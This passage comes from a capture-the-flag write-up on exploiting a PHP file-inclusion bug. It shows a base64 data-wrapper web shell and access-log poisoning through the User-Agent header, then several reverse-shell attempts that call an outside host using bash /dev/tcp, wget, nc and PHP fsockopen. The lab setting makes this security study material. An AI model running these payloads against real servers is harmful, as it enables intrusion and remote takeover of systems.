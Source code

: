 Hmmm... this was promising.. we'll look for something else and come back to it if we don't find anything.

There is also the `data` wrapper that can be interesting :
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

We have the problem here that `view` must contains `dog` or `cat`. Tried to create a base64 payload that contains one of those by appending random letters in a loop but didn't find an encoded form containng either `dog` or `cat`.
Also, not sure the server will allow `data` wrapper but i can't test it until I pass the check.
There is a mention that wrappers can be chained. Maybe this is the answer ?
Yeah soo, i just tested with `/?view=data://text/plain;dog` and we get :
```
Warning: include(): data:// wrapper is disabled in the server configuration by allow_url_include=0 in /var/www/html/index.php on line 24
```

Sooo.. Not an option..

So i came back to the `access.log` method. I kept seeing the example doing the request directly with `nc` instead of doing a `curl` request.
Not sure why but it worked like a charm when I used `nc`...
Looking at the log, we could probably use the user-agent string to get our execution going.
So yeah, it does work with the user agent as well `curl -v -H "User-Agent: <?php passthru('id'); ?>" "http://$IP/"`. I find it better because you don't have to worry about url encoding characters.

So let's just get a shell :
```
curl -v -H "User-Agent: <?php passthru('bash -c \"bash -i >& /dev/tcp/10.10.193.174/8888 0>&1\"
'); ?>" "http://$IP/"
```
Doesn't work...

Let's try to wget a file
```
curl -v -H "User-Agent: <?php passthru('wget http://10.10.193.174:8000 2>&1'); ?>" "http://$IP/"
```
Wget not found

Let's try nc
```
curl -v -H "User-Agent: <?php passthru('nc 10.10.193.174 8888 2>&1'); ?>" "http://$IP/"
```
nc not found

We could use `php` I guess. But we have trouble with the escaping of `'` and `"`

Also tried putting the php code directly here but again we get problems because some of our `"` are interpreted as `\"`
```
curl -v -H 'User-Agent: <?php $sock=fsockopen("10.10.193.174",8888);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' "http://$IP/"
```
